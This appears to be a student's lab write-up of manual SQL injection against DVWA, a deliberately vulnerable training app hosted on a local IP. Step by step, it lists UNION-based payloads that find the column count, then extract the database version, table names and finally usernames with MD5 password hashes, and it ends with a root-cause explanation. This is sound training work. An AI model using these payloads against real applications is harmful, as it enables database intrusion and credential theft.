







# Task 1B: Manual SQL Injection — UNION Extraction to Password Hashes

**Student:** Aazib Ali
**Target:** http://192.168.88.134/dvwa/vulnerabilities/sqli/
**Security level:** Low
**Method:** Manual payloads only. No sqlmap used.

---

## Step 1: Break the query

Payload: `1'`
Result: MySQL syntax error — confirms the `id` parameter reaches
raw SQL without sanitization.

---

## Step 2: Restore normal output

Payload: `1' OR '1'='1`
Result: All 5 users returned — confirms control over query logic.

---

## Step 3: Find column count

Payload: `1' ORDER BY 1-- -` → works
Payload: `1' ORDER BY 2-- -` → works
Payload: `1' ORDER BY 3-- -` → error: `Unknown column '3' in order clause`
Conclusion: query has 2 columns.

---

## Step 4: Extract database version

Payload: `1' UNION SELECT 1,@@version-- -`
Result: MySQL version displayed in Surname field.

---

## Step 5: Extract database name

Payload: `1' UNION SELECT 1,database()-- -`
Result: Database name `dvwa` displayed.

---

## Step 6: Extract table names

Payload:

1' UNION SELECT 1,group_concat(table_name) FROM
information_schema.tables WHERE table_schema=database()-- -

Result: Tables `guestbook, users` listed.

---

## Step 7: Dump password hashes

Payload:

1' UNION SELECT 1,group_concat(user,0x3a,password) FROM users-- -

Result: Usernames and MD5 password hashes extracted
(e.g. `admin:5f4dcc3b5aa765d61d8327deb882cf99`).

---

## Why the injection works

The application concatenates the `id` parameter directly into the
SQL query string without sanitization or parameterization. A
closing quote breaks the string literal, and appended SQL alters
the query logic. The root cause is unvalidated input reaching an
interpreter — the same root cause as the file inclusion vulnerability.
